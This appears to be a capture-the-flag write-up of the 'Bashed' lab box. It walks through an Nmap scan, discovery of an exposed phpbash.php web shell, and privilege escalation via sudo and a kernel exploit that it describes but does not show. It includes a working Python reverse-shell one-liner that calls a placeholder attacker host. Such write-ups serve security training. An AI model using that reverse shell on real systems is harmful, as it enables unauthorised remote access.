






## info



Bashed is an easy-level box where we exploit a vulnerable web shell to gain access and escalate privileges to root.

## Enumeration

We begin with an Nmap scan to identify open ports and services.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-21 10:34 CET
  Nmap scan report for 10.10.10.68
  Host is up (0.073s latency).
  Not shown: 999 closed ports
  PORT   STATE SERVICE VERSION
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  |_http-title: Arrexels Development Site

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 10.27 seconds
```
  
The scan reveals a web server running on port 80. Visiting the website, nothing interesting was found. Next, we use ffuf to enumerate directories



The /dev directory seems intriguing. Navigating to it, we discover a file named phpbash.php.






## Gaining Initial Access

Accessing phpbash.php provides a web-based shell.


To establish a reverse shell, we use the following Python command:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

This gives us a reverse shell as the www-data user. Upon exploration, we identify two users: scriptmanager and arrexel. The user flag is located in arrexel's home directory.



## Privilege Escalation

The scriptmanager user can execute commands as root using sudo. To escalate privileges, we first switch to scriptmanager.

Next, we run uname -a and discover that the system is using an outdated kernel version: 4.4. After researching, we find a kernel exploit for this version. Since the target machine lacks gcc, we compile the exploit on our attacker machine and transfer it to the target.

Executing the exploit successfully grants root access.



## Conclusion

The Bashed box demonstrates how a misconfigured and exposed web shell can lead to initial access. By leveraging a reverse shell and identifying privilege escalation opportunities, such as sudo permissions and kernel vulnerabilities, we successfully gained root access. This highlights the importance of securing web directories and keeping systems up to date to mitigate exploitation risks.

